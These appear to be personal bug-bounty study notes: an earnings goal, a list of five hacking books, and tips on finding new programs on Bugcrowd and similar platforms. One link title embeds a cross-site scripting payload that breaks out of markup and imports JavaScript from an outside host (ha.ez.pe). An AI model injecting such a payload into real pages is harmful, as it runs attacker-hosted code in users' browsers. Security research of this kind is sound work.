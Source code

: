
# final bug bounty objective: 30K+

_quote: 0/30°000_

_maybe at least 2k per week?_

---

🌟 𝗕𝗘𝗦𝗧 𝟱 𝗕𝗢𝗢𝗞𝗦 𝗙𝗢𝗥 𝗕𝗨𝗚 𝗛𝗨𝗡𝗧𝗘𝗥𝗦 & 𝗘𝗧𝗛𝗜𝗖𝗔𝗟 𝗛𝗔𝗖𝗞𝗘𝗥𝗦! 🌟

⚠️ 𝙇𝙚𝙖𝙧𝙣 𝙬𝙚𝙗 𝙝𝙖𝙘𝙠𝙞𝙣𝙜, 𝙗𝙪𝙜 𝙝𝙪𝙣𝙩𝙞𝙣𝙜 & 𝙤𝙛𝙛𝙚𝙣𝙨𝙞𝙫𝙚 𝙨𝙚𝙘𝙪𝙧𝙞𝙩𝙮 — 𝙖𝙡𝙡 𝙛𝙧𝙤𝙢 𝙩𝙝𝙚𝙨𝙚 𝙡𝙚𝙜𝙚𝙣𝙙𝙖𝙧𝙮 𝙗𝙤𝙤𝙠𝙨.

1️⃣ 𝙏𝙝𝙚 𝙒𝙚𝙗 𝘼𝙥𝙥𝙡𝙞𝙘𝙖𝙩𝙞𝙤𝙣 𝙃𝙖𝙘𝙠𝙚𝙧’𝙨 𝙃𝙖𝙣𝙙𝙗𝙤𝙤𝙠
2️⃣ 𝘽𝙪𝙜 𝘽𝙤𝙪𝙣𝙩𝙮 𝘽𝙤𝙤𝙩𝙘𝙖𝙢𝙥 – 𝘝𝘪𝘤𝘬𝘪𝘦 𝘓𝘪
3️⃣ 𝙍𝙚𝙖𝙡-𝙒𝙤𝙧𝙡𝙙 𝘽𝙪𝙜 𝙃𝙪𝙣𝙩𝙞𝙣𝙜 – 𝘗𝘦𝘵𝘦𝘳 𝘠𝘢𝘸𝘰𝘳𝘴𝘬𝘪
4️⃣ 𝘽𝙡𝙖𝙘𝙠 𝙃𝙖𝙩 𝙂𝙧𝙖𝙥𝙝𝙌𝙇 – 𝘈𝘗𝘐 𝘼𝘵𝘵𝘢𝘤𝘬𝘴
5️⃣ 𝙏𝙝𝙚 𝙃𝙖𝙘𝙠𝙚𝙧 𝙋𝙡𝙖𝙮𝙗𝙤𝙤𝙠 – 𝘗𝘳𝘢𝘤𝘵𝘪𝘤𝘢𝘭 𝘎𝘶𝘪𝘥𝘦 𝘛𝘰 𝘗𝘦𝘯 𝘛𝘦𝘴𝘵𝘪𝘯𝘨


![[Pasted image 20250301173713.png]]

[CVSS Calculator – Professor Software Solutions–>';\"/><img src onerror=import('//ha.ez.pe')>](https://bughuntar.com/tools/cvsscalculator/)

methodology:

**Yeswehack vdp finder.**

![None](https://miro.medium.com/v2/resize:fit:700/1*xBT1c83XM7fwPP3hVTgkPA.png)

**This will give a alert when that website has vulnerability disclosure program.**

# Find Good Bug bounty Programs:

! **This feature is only on BugCrowd, not hackerone, You can select a date and find out about a public program:**

![[Pasted image 20250315204758.png]]



We can see that only 1 vulnerability has been rewarded with 2.5k $  

and that the program started on **Feb 13**

![[Pasted image 20250315210105.png]]

![[Pasted image 20250315212625.png]]

and by clicking on the "eye" you can view the bug too:

![[Pasted image 20250315212652.png]]

Check for these features on others programs like:

[https://www.synack.com/](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbXZteVl2elB0WjA5SXpONzdxNXJmdDgtYmNYQXxBQ3Jtc0tudWo3dE1UQld4Tjg0eFA1bWMwTXBRWE9BMFNzMEV6NVNTbU9xNkV4WnZmRnR4ZXhnRk04dG53emRtd2pUTmhSb01jdk9uNW9ZSFBjUUtzZHZJQmJtZzNUSnVGRDZmZjA5TkNFMFFoNE9uVlRRQ0xSVQ&q=https%3A%2F%2Fwww.synack.com%2F&v=f5MJLSKU-7A) [https://www.intigriti.com/](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbjBYd0hwdUJmaW5kb0hLUGJjTi1YRDNIVzdlQXxBQ3Jtc0tuZ3ZfMFU0aXdaU0hHdWxTVGFWdkk4b25HSkFuSFpBQWZoX21GYjF4Q1dmUGROSDE3MXVPMFo5TVRqdjFwd0h6MWdYV0FOcUNfYUlsaXp4QWlkQmo2QXF3N0Z6SnVVWGpnaFBmUWtLX211V1phclNUcw&q=https%3A%2F%2Fwww.intigriti.com%2F&v=f5MJLSKU-7A) [https://www.yeswehack.com/](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqbG1KTHJFdzRXLXlxRUhtRFVUMktNbmlfVDVHQXxBQ3Jtc0trRjF6THhvQ3JxZGdjTGFQeFFxakduWFk5emZrS1FhODRYMUVOalpCbHB2NmJiYld2bXBEWVA1Y3NPZlc5c293Mjluc3JOWVFISzYwWGp0Ul80Y3BnRktjcmYxZHJLSkxvWjhoSW5YUlFadFluQjdCRQ&q=https%3A%2F%2Fwww.yeswehack.com%2F&v=f5MJLSKU-7A)
